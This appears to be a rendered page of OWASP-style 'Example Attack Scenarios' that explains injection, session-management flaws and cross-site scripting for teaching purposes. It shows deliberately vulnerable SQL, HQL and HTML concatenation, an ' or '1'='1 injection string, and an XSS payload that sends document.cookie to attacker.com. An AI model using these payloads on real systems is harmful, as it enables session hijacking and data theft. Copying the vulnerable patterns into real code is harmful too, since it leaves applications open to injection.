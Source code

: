 **How Do I Prevent XYZ?**

#### Example Attack Scenarios

#### Example Attack Scenarios

##### A1 – Injection

- Scenario #1: The application uses untrusted data in the construction of the following vulnerable SQL call:
    - String query = "SELECT * FROM accounts WHERE custID='" + request.getParameter("id") + "'";

- Scenario #2: Similarly, an application’s blind trust in frameworks may result in queries that are still vulnerable, (e.g., Hibernate Query Language (HQL)):
    - Query HQLQuery = session.createQuery(“FROM accounts WHERE custID='“ + request.getParameter("id") + "'");

- In both cases, the attacker modifies the ‘id’ parameter value in her browser to send: ' or '1'='1. For example: http://example.com/app/accountView?id=' or '1'='1 This changes the meaning of both queries to return all the records from the accounts table. More dangerous attacks could modify data or even invoke stored procedures.


##### A2 – Broken Authentication and Session Management "Hijacking"

- Scenario #1: Airline reservations application supports URL rewriting, putting session IDs in the URL:
    - http://example.com/sale/saleitems;jsessionid= 2P0OC2JSNDLPSKHCJUN2JV?dest=Hawaii

- An authenticated user of the site wants to let his friends know about the sale. He e-mails the above link without knowing he is also giving away his session ID. When his friends use the link they will use his session and credit card.

- Scenario #2: Application’s timeouts aren’t set properly. User uses a public computer to access site. Instead of selecting “logout” the user simply closes the browser tab and walks away. Attacker uses the same browser an hour later, and that browser is still authenticated.

- Scenario #3: Insider or external attacker gains access to the system’s password database. User passwords are not properly hashed, exposing every users’ password to the attacker.


##### A3 – Cross-Site Scripting (XSS)

- The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

    - (String) page += "<input name='creditcard' type='TEXT‘ value='" + request.getParameter("CC") + "'>";

- The attacker modifies the ‘CC’ parameter in his browser to:

    - '>\<script>document.location= 'http://www.attacker.com/cgi-bin/cookie.cgi? foo='+document.cookie</script>'.

- This causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session.
